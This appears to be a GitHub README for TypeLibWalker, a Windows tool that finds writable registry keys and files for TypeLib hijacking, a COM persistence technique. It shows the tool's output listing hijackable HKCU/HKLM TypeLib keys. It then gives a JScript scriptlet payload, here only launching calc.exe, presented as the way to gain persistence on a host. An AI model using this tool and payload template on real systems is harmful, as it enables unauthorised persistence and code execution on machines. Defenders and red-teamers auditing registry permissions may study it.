 # TypeLibWalker
This is a new way of persistence on Windows machines using TypeLib. Read more here:
https://medium.com/@cicada-8/hijack-the-typelib-new-com-persistence-technique-32ae1d284661

This tool performs comprehensive checks to detect potential Typelib libraries for hijacking:
- Insecure permissions on registry keys associated with TypeLib;
- Unsafe permissions on TypeLib on disk.

```shell
PS C:\Users\Michael\Downloads\TypeLibWalker-main\TypeLibWalker\x64\Debug> .\TypeLibWalker.exe
       wWWWw               wWWWw
 vVVVv (___) wWWWw         (___)  vVVVv
 (___)  ~Y~  (___)  vVVVv   ~Y~   (___)
  ~Y~   \|    ~Y~   (___)    |/    ~Y~
  \|   \ |/   \| /  \~Y~/   \|    \ |/
 \|// \|// \|/// \|//  \|// \|///  \|//
 ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
TypeLibWalker - find suitable TypeLibs for TypeLib Hijacking
[+] Analyzing all CLSIDs
[+] Total CLSID: 8217
----------------------------
CLSID: {00020803-0000-0000-C000-000000000046}
TypeLib: {00020802-0000-0000-C000-000000000046}
Version: 1.3
        [1] Writable: HKCU\Software\Classes\TypeLib\{00020802-0000-0000-C000-000000000046}\1.3 (Exists)
                [1.WIN64] Writable: HKCU\Software\Classes\TypeLib\{00020802-0000-0000-C000-000000000046}\1.3\0\WIN64 (Does not exist)
                [1.WIN32] Writable: HKCU\Software\Classes\TypeLib\{00020802-0000-0000-C000-000000000046}\1.3\0\WIN32 (Does not exist)
        [2] Writable: HKLM\Software\Classes\TypeLib\{00020802-0000-0000-C000-000000000046}\1.3 (Exists)
                [2.WIN64] Writable: HKLM\Software\Classes\TypeLib\{00020802-0000-0000-C000-000000000046}\1.3\0\WIN64 (Does not exist)
                [2.WIN32] Writable: HKLM\Software\Classes\TypeLib\{00020802-0000-0000-C000-000000000046}\1.3\0\WIN32 (Does not exist)
```

Once the correct registry key is found, you can prescribe a payload with commands to execute. For example:
```shell
<?xml version="1.0"?>
<scriptlet>
    <Registration
        description="CICADA8 RESEARCH"
        progid="CICADA8"
        version="1.0">
    </Registration>
    <script language="JScript">
        <![CDATA[
            var WShell = new ActiveXObject("WScript.Shell");
            WShell.Run("calc.exe");
        ]]>
    </script>
</scriptlet>
```

As a result of which you will get persistence on the host :)

![изображение](https://github.com/user-attachments/assets/5b568fc4-3055-4a02-b98c-9f8023c0b9c1)
